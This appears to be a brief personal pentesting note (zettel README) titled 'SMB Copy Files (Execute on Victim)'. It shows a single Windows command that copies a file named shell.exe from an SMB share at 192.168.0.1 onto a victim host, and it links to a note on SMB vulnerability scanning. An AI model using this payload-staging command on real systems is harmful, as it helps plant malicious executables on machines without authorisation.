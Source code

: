 # SMB Copy Files (Execute on Victim)
```
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

` zet/20221003150567/README.md `

# Related

- [20221003150838](/zet/20221003150838/README.md) scan SMB for vulnerabilities with nmap
- [20221005200242](/zet/20221005200242/README.md) empty zettels to fix

Tags:

    
